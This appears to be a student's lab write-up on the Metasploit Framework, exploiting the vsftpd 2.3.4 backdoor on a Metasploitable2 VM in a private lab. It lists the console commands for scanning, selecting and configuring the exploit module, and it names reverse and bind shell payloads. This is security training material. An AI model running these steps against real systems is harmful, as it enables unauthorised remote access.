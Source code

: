 # 🎯 Metasploit Framework - Vulnerability Scanning & Exploitation

## 🧠 What I Learned

In this exercise, I explored the **Metasploit Framework**, a powerful tool used for **vulnerability assessment, payload generation, and exploitation**. I learned how to perform Nmap scans from inside Metasploit, search for vulnerable services, configure modules, and successfully launch an exploit against a known vulnerable target (Metasploitable2).

---

## 📚 Topics Covered

- Launching and navigating Metasploit (`msfconsole`)
- Performing port scans within Metasploit (`db_nmap`)
- Searching and selecting exploit modules
- Setting up payloads (reverse shells, bind shells)
- Configuring exploit options (RHOST, LHOST, LPORT, etc.)
- Gaining a session and interacting with a compromised machine
- Basic post-exploitation with Meterpreter

---

## 🛠️ Tools & Environment

- **Kali Linux** (Attacker VM)
- **Metasploit Framework**
- **Metasploitable2** (Target VM)
- Nmap (integrated with Metasploit using `db_nmap`)

---

## 🔍 Workflow Example

### 1. Start Metasploit Console
  msfconsole
### 2. Scan Target with Nmap from within Metasploit
  - db_nmap 192.168.56.101
### 3. Search for a Vulnerable Service
  - search vsftpd 2.3.4
### 4. Configure Exploit Module
  use exploit/unix/ftp/vsftpd_234_backdoor
  set RHOST 192.168.56.101
### 5. Run the Exploit
  run/exploit
### 🎉 Successful: Shell session opened.

🧪 Payload Concepts
Payloads are the actual code that gets executed on the target

Common types:
windows/meterpreter/reverse_tcp
linux/x86/meterpreter/bind_tcp
Used set PAYLOAD and set LHOST/LPORT to customize
